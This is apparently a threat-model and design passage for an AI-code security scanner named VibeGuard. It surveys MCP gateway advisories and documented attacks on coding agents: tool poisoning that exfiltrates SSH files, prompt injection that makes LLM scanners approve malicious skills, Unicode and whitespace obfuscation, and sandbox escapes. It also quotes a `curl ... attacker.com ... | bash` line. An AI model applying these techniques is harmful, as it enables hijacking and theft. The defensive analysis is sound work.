**Structural weakness of the whole layer:** these are heuristic and LLM-as-judge systems, and Trail of Bits bypassed *every* tested agent-skill scanner — ClawHub, Cisco, Snyk, Socket, NVIDIA SkillSpector — using whitespace inflation (~100,000 prepended newlines pushing the payload outside a truncated inspection window), `.pyc` bytecode, DOCX-as-ZIP indirection, and prompt-injecting the LLM scanner itself with text "that resembled a legitimate corporate security compliance policy" so it downgraded risk and approved the skill ([CSA note](https://labs.cloudsecurityalliance.org/research/csa-research-note-ai-agent-skill-scanner-bypass-20260610-csa/)). Socket produced no Critical/High alerts even against *unobfuscated* malicious skills; NVIDIA's tool explicitly cannot analyse encrypted/binary code or text inside images.

**Design consequence for VibeGuard:** its S1 detectors are *triage signals with published false-positive/false-negative behaviour*, never a security boundary, and its own LLM analysis stage must never receive raw T2/T3 content (D7) precisely because that is the documented bypass.

### 7.2 The gateway / wrapper layer

| Tool | Model | License | Advisories at fetch |
|---|---|---|---|
| [trailofbits/mcp-context-protector](https://github.com/trailofbits/mcp-context-protector) | **Wrapper between host and server**, chosen deliberately over install-time scanning so enforcement is universal: TOFU config pinning, automatic blocking of unapproved config changes, guardrail scanning + quarantining of tool responses, ANSI control-character sanitisation, assisted `mcp.json` editing | Apache-2.0 | **None** |
| [stacklok/toolhive](https://github.com/stacklok/toolhive) | Every MCP server in an isolated container; per-request identity/access policy; K8s operator | Apache-2.0 | **4** — containerized servers reaching host services via `host.docker.internal` (high), SSRF bypassing container isolation, unencrypted secrets in state store |
| [docker/mcp-gateway](https://github.com/docker/mcp-gateway) | Catalog servers in containers with signature verification and secret management | MIT | **8**, incl. `GHSA-mqq5-qh4g-2g8g` (**critical**, unvalidated config-driven bind mount), `GHSA-g879-4j4f-6vj7` (**critical**, unauthenticated access to proxied tools in container mode), `GHSA-6m8f-w97w-99h7` (image signature verification **off by default**), `GHSA-m5m2-mrxf-7j7q` (tool-name shadowing across aggregated servers) |
| [IBM/mcp-context-forge](https://github.com/IBM/mcp-context-forge) | Registry + proxy federating MCP/A2A/REST with guardrail plugins, rate limiting, auth | Apache-2.0 | **4**, incl. `GHSA-m8rv-5m6m-32ff` (**critical**, hardcoded default `JWT_SECRET_KEY` → admin token forgery), `GHSA-vwf3-4xxj-qg6h` (high, SSTI→RCE in Jinja2 prompt rendering), DNS-TOCTOU SSRF bypass |
| [agentgateway/agentgateway](https://github.com/agentgateway/agentgateway) | High-performance agentic proxy with MCP/A2A routing and authorization policy | Apache-2.0 | **3**, incl. `GHSA-mvgg-jvj2-4frq` (high — **stateful MCP sessions crossing routes and overwriting the authorization policy**) |
| [Edison-Watch/open-edison](https://github.com/Edison-Watch/open-edison) | "Deterministic Agentic Data Firewall" explicitly designed against the lethal trifecta | **GPL-3.0** | none returned |
| [lasso-security/mcp-gateway](https://github.com/lasso-security/mcp-gateway), [smart-mcp-proxy/mcpproxy-go](https://github.com/smart-mcp-proxy/mcpproxy-go), [Kuadrant/mcp-gateway](https://github.com/Kuadrant/mcp-gateway), [AmoyLab/Unla](https://github.com/AmoyLab/Unla), [metatool-ai/metamcp](https://github.com/metatool-ai/metamcp) | Interception/guardrails, quarantine UI, Envoy+Istio policy, API conversion, aggregation | MIT / Apache-2.0 | none returned |

### 7.3 Trust models and attack classes

**Tool poisoning** is the defining MCP attack: malicious instructions live in tool *metadata*, not implementation code, causing the model to read `~/.cursor/mcp.json` and `~/.ssh/secret.txt` and smuggle contents through a hidden `sidenote` parameter; the same corpus documents phishing-link creation, `curl -s https://attacker.com/validate.sh | bash` remote execution, and priority hijacking through tools claiming "highest priority" or using `IMPORTANT` ([arXiv 2603.21642](https://arxiv.org/html/2603.21642v1), tested against Claude Desktop 0.14.4, Claude Code 2.0.25, Cursor 1.6.45, Cline 3.34.0, Continue 1.2.10, Gemini CLI 0.9.0, Langflow 1.7). Invariant's original disclosure frames it as "a specialized form of indirect prompt injection" enabling exfiltration, agent hijacking and override of other trusted servers' instructions ([Invariant Labs](https://invariantlabs.ai/blog/mcp-security-notification-tool-poisoning-attacks)), with reproducible payloads in [mcp-injection-experiments](https://github.com/invariantlabs-ai/mcp-injection-experiments).

**Rug pulls** are the trust-model failure. `CVE-2025-54136` ("MCPoison") existed because Cursor bound one-time MCP approval to the config **key name** rather than the config **content**, so an attacker could swap an approved benign entry for a malicious one and obtain silent persistent code execution on every project open; Cursor v1.3 re-prompts on any MCP config change ([Check Point](https://research.checkpoint.com/2025/cursor-vulnerability-mcpoison/)). The supply-chain analogue is `postmark-mcp` 1.0.16, where an unaffiliated author built trust over 15 clean versions then BCC'd every email through the server to an external address ([Postmark](https://postmarkapp.com/blog/information-regarding-malicious-postmark-mcp-package)).

**Other named classes** in the reviewed corpus: **tool shadowing** and **tool squatting** (docker/mcp-gateway's `GHSA-m5m2-mrxf-7j7q` is a real instance of name shadowing across aggregated servers), **line jumping**, **ANSI escape abuse**, MITM, DNS rebinding and SSE injection ([arXiv 2601.17548](https://arxiv.org/html/2601.17548v1), [Trail of Bits](https://blog.trailofbits.com/categories/prompt-injection/)).

**Trust-model options and their honest ceilings:**

| Model | Instances | Ceiling |
|---|---|---|
| **Trust-on-first-use + content pinning** | mcp-context-protector | Strongest available primitive; only detects change, cannot judge initial intent |
| **Registry / provenance verification** | [modelcontextprotocol/registry](https://github.com/modelcontextprotocol/registry) with DNS/HTTP/GitHub-OIDC namespace ownership verification | Provenance infrastructure is itself young: **5 advisories** incl. unauthenticated SSRF via IPv6 6to4/NAT64 and **replayable GitHub OIDC tokens across deployments** |
| **Container/VM isolation per server** | toolhive, docker/mcp-gateway, wassette, `srt`-wrapped stdio servers | Bypassable — `host.docker.internal` reached host services; docker/mcp-gateway had unauthenticated access to proxied tools in container mode |
| **Human approval per tool call** | mcp-guardian (abandoned), Claude Code permission prompts | Measured human refusal rate for a clearly dangerous prompt: **13.6%** |
| **Static scanning at install** | agent-scan, mcp-scanner, ramparts, nova-proximity, mcp-watch | All tested equivalents bypassed by obfuscation and by injecting the scanner |
| **Runtime traffic mediation** | pipelock, MCP-Dandan, MCP-Defender (frozen), open-edison | Best evidence generation (signed receipts); depends on seeing the traffic, which TLS-blind proxies and non-HTTP channels defeat |

Anthropic's own position closes the loop: it states plainly that it does **not** security-audit or manage any MCP server, though it reviews connectors against listing criteria before adding them to the Anthropic Directory ([security](https://docs.claude.com/en/docs/claude-code/security)). Sharp edges in the client itself compound this: `headersHelper` executes arbitrary shell with a 10-second timeout ([MCP](https://docs.claude.com/en/docs/claude-code/mcp)).

### 7.4 The defenses carry their own CVEs

This is not a rhetorical point; it is the fetched advisory record for the *defensive* tooling:

| Tool | Advisories | Worst |
|---|---|---|
| [docker/mcp-gateway](https://api.github.com/repos/docker/mcp-gateway/security-advisories) | 8 | Two **criticals** (unvalidated bind mount; unauthenticated access to proxied tools) |
| [modelcontextprotocol/registry](https://api.github.com/repos/modelcontextprotocol/registry/security-advisories) | 5 | Unauthenticated SSRF, stored XSS, replayable OIDC tokens |
| [IBM/mcp-context-forge](https://api.github.com/repos/IBM/mcp-context-forge/security-advisories) | 4 | **Critical** hardcoded default `JWT_SECRET_KEY` |
| [stacklok/toolhive](https://api.github.com/repos/stacklok/toolhive/security-advisories) | 4 | High container-isolation bypass |
| [agentgateway/agentgateway](https://api.github.com/repos/agentgateway/agentgateway/security-advisories) | 3 | High authorization-policy overwrite |
| [containers/bubblewrap](https://api.github.com/repos/containers/bubblewrap/security-advisories) | 2 | CVE-2026-41163, CVE-2020-5291 setuid privesc |
| [anthropic-experimental/sandbox-runtime](https://api.github.com/repos/anthropic-experimental/sandbox-runtime/security-advisories) | 1 | `GHSA-9gqj-5w7c-vx47` Network Sandboxing Escape |
| [superradcompany/microsandbox](https://api.github.com/repos/superradcompany/microsandbox/security-advisories) | 1 | Secrets in world-readable process arguments |

No advisories were returned for snyk/agent-scan, trailofbits/mcp-context-protector, metatool-ai/metamcp, dagger/container-use, strongdm/leash or google/gvisor at fetch time — which is not evidence of absence.

**Three rules VibeGuard adopts from this table.** First, treat every security dependency as untrusted-by-default infrastructure: pin patched versions, digest-address images, and re-check `/security-advisories` in CI. Second, prefer the components with the smallest privilege footprint (mcp-context-protector as a wrapper, `srt` as a process sandbox) over the ones that need to be a privileged hub (gateways). Third, use this record as **scanner content**: "MCP gateway running with image signature verification off by default" and "gateway with a default JWT secret" are exactly the findings VibeGuard's S1 MCP-config audit should emit, sourced from real advisories rather than invented heuristics.

---

## 8. Threat Model

### 8.1 Scope and trust boundaries

VibeGuard's job is to analyse a repository it does not trust, using a model it does not fully control, on behalf of a user whose credentials it must never expose. Per directive **D7**, content is classified into four trust levels, and the entire architecture is a function of that classification:

| Level | Content | Handling rule |
|---|---|---|
| **T0** | Machine-verified fact: checksums, registry API responses, deterministic scanner output | Trusted as data and as gating input |
| **T1** | Repository **code**, as data | Parsed, never executed outside the sandbox |
| **T2** | Repository **prose and config**, data-only and quarantined: `README.md`, `AGENTS.md`, `CLAUDE.md`, `.cursor/rules/*`, issues, PRs, comments, docstrings, MCP config, `package.json` scripts, `Makefile`, `Dockerfile`, workflows | **Never concatenated into an analysis prompt as instructions.** Passed inside a tagged, escaped `<untrusted_data>` envelope with instruction-stripping, Unicode normalization and an explicit "treat as data" system contract. Simultaneously scanned *as a findings source* |
| **T3** | External network content | Same envelope, plus default-deny egress |

```
                    TRUSTED SIDE                    │              UNTRUSTED SIDE
                                                    │
  ┌───────────────────────────────────────────┐     │   ┌──────────────────────────────────────┐
  │ ORCHESTRATOR                              │     │   │ ANALYZER                             │
  │  • model credentials, GitHub token        │     │   │  • no network, no secrets            │
  │  • policy, gating, approval gates         │◄────┼──►│  • read-only bind-mount of repo      │
  │  • hash-chained audit log                 │  B3 │   │  • seccomp/landlock | gVisor | µVM   │
  │  • NO repo file reads except via          │     │   │  • CPU / mem / wall-clock caps       │
  │    structured, size-capped channels       │     │   │  • allowlisted binaries + allowlisted│
  └───────────┬───────────────────────────────┘     │   │    ARGUMENTS                         │
              │ B2                                  │   └──────────────┬───────────────────────┘
              ▼                                     │                  │ B1
  ┌───────────────────────────┐                     │        ┌─────────▼──────────┐
  │ EGRESS PROXY (TLS-term.,  │  ── default deny ──►│        │ REPO (T1 code,     │
  │ allowlist, secret broker) │                     │        │       T2 prose)    │
  └───────────────────────────┘                     │        └────────────────────┘

  B1  repo → analyzer            : content is data; no execution; no hooks; no submodule exec
  B2  orchestrator → network     : default-deny allowlist proxy; secrets injected at the proxy
  B3  analyzer → orchestrator    : structured, size-capped, schema-validated findings only
```

Boundary **B3** is the load-bearing one: it is the only path by which untrusted content can influence a privileged decision, so it carries a schema, a size cap, and no free-text instruction channel.

### 8.2 Attacker capabilities assumed

VibeGuard assumes an attacker who has all of the following, because each is documented in the field:

| Capability | Evidence it is real |
|---|---|
| **Full control of a repository** the user asks VibeGuard to scan | Public repos are the normal case |
| **Malicious `README.md` / docs**, including payloads two document links deep | [CSA README Injection](https://labs.cloudsecurityalliance.org/research/csa-research-note-readme-instruction-injection-ai-coding-age/) |
| **Malicious issue** with payload in an HTML comment `<!-- -->` | [Invariant Labs](https://invariantlabs.ai/blog/mcp-github-vulnerability); [Orca RoguePilot](https://orca.security/resources/blog/roguepilot-github-copilot-vulnerability/) |
| **Malicious PR** description with GitHub *invisible comments*, or a PR **title** consumed by CI | [CamoLeak](https://www.legitsecurity.com/blog/camoleak-critical-github-copilot-vulnerability-leaks-private-source-code); [Nx postmortem](https://nx.dev/blog/s1ngularity-postmortem) |
| **Malicious commit messages, MR comments and source code** | GitLab Duo: "Every single one of these worked" ([Legit Security](https://www.legitsecurity.com/blog/remote-prompt-injection-in-gitlab-duo)) |
| **Malicious dependency / typosquat / slopsquat** | 19.7% of generated package references hallucinated, 205,474 unique fake names, 43% reproducible across reruns ([CSA on USENIX 2025](https://labs.cloudsecurityalliance.org/research/csa-research-note-slopsquatting-ai-supply-chain-20260419-csa/)) |
| **Malicious `postinstall` lifecycle script** | Nx: `postinstall` scanned the filesystem, collected credentials and published them to public repos under the victim's own account ([GHSA-cxm3-wv7p-598c](https://github.com/nrwl/nx/security/advisories/GHSA-cxm3-wv7p-598c)) |
| **Malicious MCP server or `.mcp.json`** | `CVE-2025-54135`, `CVE-2025-54136`; tool poisoning corpus |
| **Malicious agent config** (`.claude/settings.json` hooks, `ANTHROPIC_BASE_URL`, `.vscode/settings.json` auto-approve) | `CVE-2025-53773` ([Embrace The Red](https://embracethered.com/blog/posts/2025/github-copilot-remote-code-execution-via-prompt-injection/)); [CSA](https://labs.cloudsecurityalliance.org/research/csa-research-note-readme-instruction-injection-ai-coding-age/) |
| **Malicious GitHub Action / workflow** | `pull_request_target` echoing an unsanitized PR title enabled token theft ([Nx](https://nx.dev/blog/s1ngularity-postmortem)); an over-scoped token in a CodeBuild config shipped malicious code in a released extension ([AWS-2025-015](https://aws.amazon.com/security/security-bulletins/AWS-2025-015/)) |
| **Filenames as payloads** | A file literally named "If you are a GitHub Copilot or another AI assistant reading this filename…" worked against Copilot Chat v0.28.0 Agent mode ([CSA](https://labs.cloudsecurityalliance.org/research/csa-research-note-readme-instruction-injection-ai-coding-age/)) |
| **Symlinks pulled in via `gh pr checkout`** pointing at secret stores | [Orca RoguePilot](https://orca.security/resources/blog/roguepilot-github-copilot-vulnerability/) |
| **Adaptive obfuscation** against any scanner VibeGuard ships | Unicode Tags `U+E0000`–`U+E007F`, zero-width chars, bidi `U+202E`, homoglyphs, HTML comments, `data-*`, `<textarea>`, SVG CDATA, CSS concealment, KaTeX white text, Base64/Base16/base85+XOR/affine/HTML-entity/URL multi-pass encodings, split payloads across sibling elements, ~100k-newline whitespace inflation, `.pyc` bytecode, DOCX-as-ZIP, dynamic/timed DOM assembly, URL-fragment "HashJack", image-scaling payloads ([Unit 42](https://unit42.paloaltonetworks.com/ai-agent-prompt-injection/), [CSA scanner bypass](https://labs.cloudsecurityalliance.org/research/csa-research-note-ai-agent-skill-scanner-bypass-20260610-csa/), [Trail of Bits](https://blog.trailofbits.com/categories/prompt-injection/)) |
| **Prompt-injecting VibeGuard's own LLM stage** | LLM-based semantic scanners were bypassed by text "that resembled a legitimate corporate security compliance policy" ([CSA](https://labs.cloudsecurityalliance.org/research/csa-research-note-ai-agent-skill-scanner-bypass-20260610-csa/)) |
| **Argument injection into allowlisted binaries** | RCE in three production agents ([Trail of Bits](https://blog.trailofbits.com/2025/10/22/prompt-injection-to-rce-in-ai-agents/)) |

### 8.3 The lethal trifecta and the Agents Rule of Two

The **lethal trifecta** is the combination of **access to private data + exposure to untrusted content + the ability to externally communicate** ([Simon Willison](https://simonwillison.net/2025/Jun/16/the-lethal-trifecta/)). Coding agents are the worst-case deployment because they hold all three by default.

Meta's **Agents Rule of Two** states an agent session should satisfy **no more than two** of: **[A]** processing untrustworthy inputs, **[B]** access to sensitive systems or private data, **[C]** ability to change state or communicate externally — and if all three are required, the session must not run autonomously ([as reported by Willison](https://simonwillison.net/2025/Nov/2/new-prompt-injection-papers/)). The accompanying framing is blunt: "prompt injection remains an unsolved problem, and attempts to block or filter them have not proven reliable enough to depend on."

**VibeGuard's process split is the Rule of Two made architectural:**

| Process | [A] untrusted input | [B] sensitive access | [C] state change / egress | Satisfies Rule of Two? |
|---|---|---|---|---|
| **Analyzer** | ✅ yes (repo T1/T2) | ❌ no secrets, no tokens | ❌ no network, read-only mount | **Yes — 1 of 3** |
| **Orchestrator** | ❌ no raw repo content; only schema-validated findings over B3 | ✅ model credentials + GitHub token | ✅ network via broker, PR creation | **Yes — 2 of 3** |
| **Fix pipeline (S8)** | ✅ patched code | ❌ (sandboxed worktree, no secrets) | ✅ writes to a worktree only, never a branch, never the default branch | Constrained to 2 of 3; PR creation is the Orchestrator's act after human approval |

The residual honesty: this reduces risk, it does not eliminate it. The 14-author industry/academic paper on securing LLM agents concludes it is "unlikely that general-purpose agents can provide meaningful and reliable safety guarantees" as long as agents and defenses rely on current LLMs ([arXiv 2506.08837](https://arxiv.org/abs/2506.08837)), and CaMeL — the strongest published architectural defense — lists its own non-goals explicitly: no defence against attacks affecting neither control nor data flow, vulnerability to side channels, no atomicity/rollback for partially executed side-effecting sequences, and "prompt injection attacks are not fully solved" ([arXiv 2503.18813](https://arxiv.org/pdf/2503.18813)).

### 8.4 How VibeGuard itself becomes attack surface

A security tool that reads untrusted repositories and can open pull requests is a high-value target. The self-directed threats:

1. **VG-as-injection-victim.** Repo content reaches VibeGuard's LLM stage and rewrites its behaviour — the exact bypass demonstrated against LLM scanners. *Mitigation:* D7's `<untrusted_data>` envelope, instruction-stripping, Unicode normalization, and D4's hard rule that the LLM may raise or lower confidence and may add `source=ai, unverified` findings but **may never delete a deterministic finding or approve a patch**.
2. **VG-as-exfiltration-channel.** VibeGuard holds a GitHub token and model credentials while reading attacker-controlled text. *Mitigation:* two-process split, default-deny TLS-terminating egress allowlist, broker-injected secrets that never enter the sandbox environment. The DNS lesson from `CVE-2025-55284` is encoded as a rule: **allowlisted network utilities are exfiltration channels**, so no network binary is on the analyzer's allowlist at all.
3. **VG-as-RCE-target.** VibeGuard shells out to eight or more third-party binaries with paths and arguments derived from repository content. *Mitigation:* allowlisted binaries **plus allowlisted arguments**, because argument injection into pre-approved commands is a documented RCE path; no shell interpolation of repo-derived strings; no `npm install`, build, or container build outside the sandbox and never in the same stage as network access (D3(c)).
4. **VG-as-supply-chain-vector.** Its own dependencies and container images are the attack surface, and every third-party scanner it invokes is a transitive trust decision — while the defensive tooling in this space has criticals (§7.4) and repositories silently redirect after ownership changes (§3.4). *Mitigation:* SHA/digest pinning, SLSA provenance and Sigstore signing of VibeGuard's own artefacts, advisory re-checks in CI, and no auto-updating rule bundles.
5. **VG-as-privilege-escalation-path in the customer's CI.** Any user with write access to a repository has read access to all its secrets, secret redaction in logs is **not guaranteed**, and a compromised third-party action can access all repo secrets and `GITHUB_TOKEN` ([Actions hardening](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions)). *Mitigation:* minimum `GITHUB_TOKEN` permissions, App-token preference, `.github/workflows` in CODEOWNERS as a shipped recommendation, and never requesting write scopes the product does not need.
6. **VG-as-slop-generator.** False positives are a real harm: maintainers built `honeyslop` specifically because they received an AI slop vulnerability report on their own project. *Mitigation:* wedge W5 — published abstention rate, per-detector precision/recall, and D9's `abstain` outcome rather than a low-confidence guess.
7. **VG-as-plugin-attack-surface.** Shipping a Claude Code skill that can execute shell, or a plugin that grants tools, widens the customer's blast radius. *Mitigation:* D1's explicit prohibition — respect `disableSkillShellExecution`, no `!`-exec blocks, no `allowed-tools` grants; enforcement lives only in hooks.

### 8.5 STRIDE-style threat register

Likelihood and impact are qualitative (Low / Medium / High / Critical) and reflect the evidence cited in the row. Residual risk is what remains **after** the stated mitigation — never "none".

| # | STRIDE | Threat | Likelihood | Impact | Mitigation (VibeGuard) | Residual risk |
|---|---|---|---|---|---|---|
| T1 | Tampering / Elevation | **Instruction injection via auto-loaded agent files** (`AGENTS.md`, `CLAUDE.md`, `.cursor/rules`, `.claude/settings.json`) hijacks the analysis or the host agent | **High** — 36% of 3,984 scanned skills contained injection ([Snyk](https://snyk.io/blog/toxicskills-malicious-ai-agent-skills-clawhub/)) | High | S1 instruction-file inventory + tier 1–4 heuristics; T2 quarantine envelope; findings emitted, never obeyed | **Medium** — adaptive obfuscation beat every tested scanner; treat as triage signal |
| T2 | Tampering | **Invisible-Unicode payloads** (Unicode Tags, zero-width, bidi `U+202E`, homoglyphs) | High | High | Deterministic-only detection (D4): flag `U+E0000`–`U+E007F`, decode runs and report decoded ASCII, escalate at run-length >10 / sparse >100, flag bidi where visible order ≠ raw order | **Low-Medium** — legitimate invisible codepoints exist (emoji, test fixtures), so combine tiers before escalating |
| T3 | Spoofing / Tampering | **Platform-metadata injection**: issue body in HTML comment, PR description with invisible comments, PR title consumed by CI, commit messages | High | High | Treat all platform metadata as T2; fetch through the same envelope; S1 scans it as a findings source | **Medium** — VibeGuard cannot prevent the *host* agent from reading the same content |
| T4 | Elevation of Privilege | **Auto-approval write**: repo content sets `"chat.tools.autoApprove": true`, writes `.cursor/mcp.json`, `.claude/settings.json` hooks, or `ANTHROPIC_BASE_URL` | Medium-High — `CVE-2025-53773`, `CVE-2025-54135` | **Critical** — full developer-machine compromise, self-propagating | Tier-1 deterministic detector for any repo-controlled content that writes these paths/keys; hard-block via PreToolUse hook in the Claude Code plugin | **Low-Medium** — hook `if` filters fail open; async hooks cannot enforce |
| T5 | Tampering | **Rug pull**: approved MCP entry's *content* swapped after approval | Medium — `CVE-2025-54136` | High | S1 MCP config diffing on content hash, not key name; recommend/wrap with mcp-context-protector's TOFU pinning | **Medium** — pinning detects change, cannot judge initial intent |
| T6 | Information Disclosure | **Tool-description poisoning** exfiltrating `~/.ssh/*`, `~/.cursor/mcp.json` via hidden parameters | Medium-High — 392 confirmed injections in MCP tool descriptions across ~10k live environments | High | S1 MCP audit with mcp-watch-derived detectors; sensitive-path patterns in tool metadata; agent-facing tools read-only by default | **Medium** — LLM-as-judge components are bypassable |
| T7 | Information Disclosure | **Exfiltration via allowlisted utilities / DNS** (`ping`, `nslookup`, `host`, `dig`) | Medium — `CVE-2025-55284` | High | Analyzer has **no network at all**; no network binaries on the allowlist; egress only through the Orchestrator's TLS-terminating allowlist proxy | **Low-Medium** — domain fronting defeats hostname-only proxies; broad allowlists reintroduce the channel |
| T8 | Information Disclosure | **Egress via auto-fetch side channels**: JSON `$schema` URLs with `json.schemaDownload.enable`, image proxies (Camo), external image rendering | Medium — RoguePilot, CamoLeak | High | Tier-4 structural detector for egress-capable settings enabled by repo content; VibeGuard renders no remote content in its own reports | **Medium** — new side channels appear faster than detectors |
| T9 | Elevation of Privilege | **Argument injection into allowlisted binaries** turning "safe" tools into execution primitives | Medium-High — RCE in three production agents | Critical | Allowlisted binaries **and** allowlisted argument grammars; no shell interpolation of repo-derived strings; structured argv only | **Low-Medium** — argument grammars are as good as their author |
| T10 | Elevation of Privilege | **Execution of repo-provided code**: `postinstall`, build scripts, Makefile, Dockerfile, git hooks, submodules | High — Nx | Critical | D3(c): no code execution outside the sandbox and never in the same stage as network access; S0 clones shallow with hooks and submodule exec disabled; container/DAST stages **off by default** | **Low** for the default path; **Medium** when a user opts into container/DAST |
| T11 | Elevation of Privilege | **Sandbox escape via trusted unsandboxed host components** (interpreter discovery, git fsmonitor, `.vscode` task runners, Docker socket) | Medium — eight documented cases | Critical | Two-process split; no Unix-socket passthrough; no Docker socket; deny writes to `.git/hooks`, `.git/config`, `.vscode`, `.idea`, shell rc files; prefer gVisor/microVM over denylist sandboxes | **Medium** — the category's own primitives have escape advisories (`GHSA-9gqj-5w7c-vx47`, bubblewrap setuid CVEs) |
| T12 | Spoofing | **Slopsquat / typosquat / hallucinated dependency** written by the generating agent | High — 19.7% hallucination rate | High | Deterministic-only dependency-provenance check (registry existence + age + popularity + typosquat distance + guarddog/vet rules); never LLM-judged | **Low-Medium** — registry lookups require network, so offline mode degrades to cached data |
| T13 | Tampering | **Malicious GitHub Action / workflow**: `pull_request_target` interpolating untrusted fields, default read-write token perms, reachable `workflow_dispatch`, unpinned actions | High | Critical | zizmor + Scorecard Dangerous-Workflow + tier-4 structural checks; require SHA-pinning in VibeGuard's own recommendations | **Low-Medium** — `pull_request_target` guidance is **Unverified** from fetched GitHub docs |
| T14 | Tampering | **Symlink traversal** via `gh pr checkout` pointing at secret stores | Medium — RoguePilot | High | S0 rejects symlinks resolving outside the workspace; read-only bind-mount confines resolution | **Low** |
| T15 | Spoofing / Tampering | **Supply-chain compromise of VibeGuard's own dependencies or a scanner it invokes** (incl. silent repo redirects and 15-clean-versions-then-backdoor) | Medium — postmark-mcp, Nx, Amazon Q 1.84.0 | Critical | SHA/digest pinning of every scanner and image; SLSA provenance + Sigstore signing of VG artefacts; advisory re-checks in CI; no auto-updating rule bundles | **Medium** — a compromised upstream release signed correctly still passes |
| T16 | Tampering | **Injection of VibeGuard's own LLM stage** ("compliance policy" text causing it to downgrade risk) | Medium-High — demonstrated against LLM scanners | High | D4: LLM may adjust confidence and add `unverified` findings, but **cannot delete a deterministic finding or approve a patch**; deterministic gating only | **Medium** — the LLM's *narrative* can still mislead a human reader |
| T17 | Repudiation | **No tamper-evident record** of what the agent did, what the model saw, or why a patch was proposed | Medium | Medium-High | Append-only hash-chained audit log, redacted, with model I/O hashes; per-patch provenance (model, prompt hash, tool versions) and rollback; signed JSON findings | **Low-Medium** — the log is only as trustworthy as the host it lives on |
| T18 | Denial of Service | **Resource exhaustion**: whitespace-inflated files (~100k newlines), zip bombs, pathological repos, unbounded LLM spend | Medium-High | Medium | D3(e) budget/timeout governor; size/entropy limits at S0; CPU/mem/wall-clock caps in the Analyzer; anti-truncation inspection *after* large whitespace regions; explicit spend cap | **Low-Medium** — a governor that trips is a partial scan, which must be reported as such, not as a clean result |
| T19 | Denial of Service / Repudiation | **False-positive flood ("slop")** damaging maintainer trust, plus honeypot canaries designed to catch exactly this | Medium-High | Medium | Multi-tool agreement scoring; `disputed` and `abstain` outcomes (D9); published abstention and precision/recall (W5); method-level localisation where available | **Medium** — measured SAST precision is low by nature; honesty is the mitigation, not elimination |
| T20 | Tampering / Elevation | **Unsafe auto-fix**: patch closes one path, opens another, or changes behaviour | **High** — 49.3% of AI patches failed to close an existing exploit path; 2.3% introduced a new security problem | Critical | D6: PoC/failing-test first → minimal diff, deterministic codemods preferred → sandboxed worktree → full suite + new security test → full and differential rescan → PoC must now fail → human approval → PR. Never write to the default branch; never touch CI/CD, secrets, permissions or lockfile-pinned versions without explicit opt-in | **Medium** — differential testing alone measured **41.7% precision** as an oracle, which is exactly why exploit reproduction is required rather than tests-pass |
| T21 | Elevation of Privilege | **Over-permissioned GitHub App / Action**: any repo-write user can read all secrets; one shared permission set per app; commits with `GITHUB_TOKEN` don't retrigger workflows | Medium | High | Request the minimum permission set; App installation tokens over `GITHUB_TOKEN`; no `Workflows: write` unless a user opts into CI remediation; document that adding a permission re-prompts every installation | **Medium** — GitHub does not allow accepting a subset of an app's permissions |
| T22 | Information Disclosure | **Source-code egress to a vendor** as an inherent property of the product | High for SaaS competitors | High | Local-first default, BYO model, offline mode, no telemetry of source; SaaS remains opt-in and out of v1 scope | **Low-Medium** — a BYO cloud model still sends excerpts to that provider; disclose it |
| T23 | Spoofing | **Impersonation of VibeGuard** (typosquatted plugin/marketplace/package, or an "official-looking" clone) | Medium — `anthropic-lab/llm-sast-scanner` pattern | High | Publish from a single owned marketplace; sign releases; document canonical install paths; monitor for name collisions | **Medium** — marketplaces cannot be policed by the publisher |
| T24 | Elevation of Privilege | **Trust-gate absence in CI**: `-p`/SDK sessions skip trust verification and treat the folder as trusted; project `.mcp.json` approval is impossible without a prompt | High — documented default | High | VibeGuard re-implements its own trust classification (S1) and never relies on the harness's trust dialog; CI mode defaults to read-only with no auto-apply | **Low-Medium** |

**Two closing honesty statements.** First, the mitigations above are risk reductions with named residuals; the register contains no "residual: none" row, by design. Second, the strongest single claim VibeGuard can make about its own robustness is a *measured* one, not an architectural one — which is why D10 places AgentDojo (97 tasks / 629 security cases), InjecAgent (1,054 cases), ASB and MCPSecBench in the V2 benchmark harness, and why any published robustness figure must state the attacker model, given that under adaptive optimization every evaluated defense in the literature was bypassed with success exceeding 78% ([survey](https://arxiv.org/html/2601.17548v1)) and that outcomes are non-deterministic across repeated identical attempts, making single-run "blocked" results weak evidence ([NCC Group](https://www.nccgroup.com/research/non-deterministic-nature-of-prompt-injection/)).

---

## 9. Standards

Per file 05, each standard is wired in as exactly one of: **(a)** finding taxonomy, **(b)** requirement checklist, **(c)** output/report format, **(d)** ignore. Wiring a standard into the wrong slot is the most common way security products become unusable — a control catalogue used as a finding taxonomy produces findings nobody can act on, and a taxonomy used as a checklist produces compliance theatre.

### 9.1 Wire in as (a) — finding taxonomy

| Standard | Version / date | Role in VibeGuard |
|---|---|---|
| **MITRE CWE** | **4.20**, released **30 April 2026**; 944 weaknesses, 1,450 entries; adds an **AI/ML view** plus 2 categories ([CWE news](https://cwe.mitre.org/news/index.html)) | **Canonical primary key** for every finding. CWE is what makes cross-tool dedup possible (§5.5) and what makes tool-native severities discardable. The new AI/ML view is the anchor point for VIBE-xx mappings |
| **OWASP Top 10:2025** | 2025 edition, 8th installment; exact release date **n.a.** ([Top Ten project](https://owasp.org/www-project-top-ten/), [2025 landing](https://owasp.org/Top10/2025/)) | **Secondary rollup label** for web/API findings. A01 Broken Access Control (3.73% incidence, 40 CWEs), A02 Security Misconfiguration (3.00%, 16 CWEs), **A03 Software Supply Chain Failures (new)**, A04 Cryptographic Failures, A05 Injection, A06 Insecure Design, A07 Authentication Failures, A08 Software/Data Integrity Failures, **A09 Security Logging & Alerting Failures**, **A10 Mishandling of Exceptional Conditions**; SSRF folded into A01 ([2025 Introduction](https://owasp.org/Top10/2025/0x00_2025-Introduction/)). **Engine implication: A03, A09 and A10 are new buckets VibeGuard must be able to emit** — A10 finally gives error/exception-handling findings a home |
| **OWASP GenAI LLM Top 10** | **2026 edition, published 4 August 2026**; maps to NIST, MITRE ATLAS, CWE and the Agentic Top 10 ([resource](https://genai.owasp.org/resource/owasp-genai-llm-top-10-2026/)) | Secondary label for AI-code and AI-app findings. LLM01:2025 Prompt Injection supplies the taxonomy VibeGuard's S1 uses (direct, indirect, jailbreaking, multimodal, cross-modal, unintentional, code injection) ([OWASP LLM01](https://genai.owasp.org/llmrisk/llm01-prompt-injection/)) |
| **OWASP Top 10 for Agentic Applications** | **2026 edition**, announced **9 Dec 2025**; ASI01–ASI10 incl. ASI06 Memory & Context Poisoning ([resource](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/)) | Secondary label for agent-layer findings from S1 (MCP config, agent config, skill files) |
